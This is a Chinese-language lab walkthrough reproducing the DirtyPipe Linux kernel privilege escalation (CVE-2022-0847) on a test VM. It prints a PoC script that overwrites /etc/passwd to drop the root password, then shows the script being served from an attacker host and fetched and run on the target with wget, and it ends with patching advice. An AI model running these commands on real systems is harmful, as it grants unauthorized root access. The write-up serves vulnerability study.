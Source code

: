 # Linux脏管道提权

漏洞复现-DirtyPipe提权(CVE-2022-0847)

##### 0x00 前言 

> 此漏洞自 5.8 版本起就已存在。非 root 用户通过**注入和覆盖只读文件中的数据**，从而获得 root 权限。因为非特权进程可以将代码注入 root 进程。

漏洞利用条件：

> 1、内核影响版本：5.8 <= Linux kernel < 5.16.11/5.15.25/5.10.102
>
> 2、被覆写的目标文件必须拥有可读权限。

`uname -a`查看内核版本

|          | 攻击者         | 靶机           |
| -------- | -------------- | -------------- |
| 操作系统 | kali           | CentOS 7       |
| IP地址   | 192.168.12.135 | 192.168.12.131 |
| 内核     |                | 5.8.7          |

> 这里使用普通用户登录靶机，进行提权，前期入侵操作默认完成

**0x01 下载poc代码**

```
https://github.com/r1is/CVE-2022-0847/blob/main/Dirty-Pipe.sh
```

查看文件，原理

```shell
gcc exp.c -o exp -std=c99

# 备份密码文件
rm -f /tmp/passwd
cp /etc/passwd /tmp/passwd
if [ -f "/tmp/passwd" ];then
	echo "/etc/passwd已备份到/tmp/passwd"
	passwd_tmp=$(cat /etc/passwd|head)
	./exp /etc/passwd 1 "${passwd_tmp/root:x/oot:}"

	echo -e "\n# 恢复原来的密码\nrm -rf /etc/passwd\nmv /tmp/passwd /etc/passwd"

	# 现在可以无需密码切换到root账号
	su root
```

将文件存入`/tmp`目录下，开启web服务

```shell
cd /tmp

python -m http.server 8080
```



**0x02 在靶机运行poc代码**

```shell
# 下载poc到靶机，如果连的上github，就不用自己部署云上
wget http://192.168.12.135:8080/Dirty-Pipe.sh

# 添加权限
chmod a+x Dirty-Pipe.sh

# 运行代码
./Dirty-Pipe.sh

# 查看
id
whoami
# 是root就成功
```

![image-20230225181744462](https://s2.loli.net/2023/02/27/wfQ7EBvbsVCz4FA.png)

**0x03 修复建议**

更新系统内核为已修复该漏洞的版本。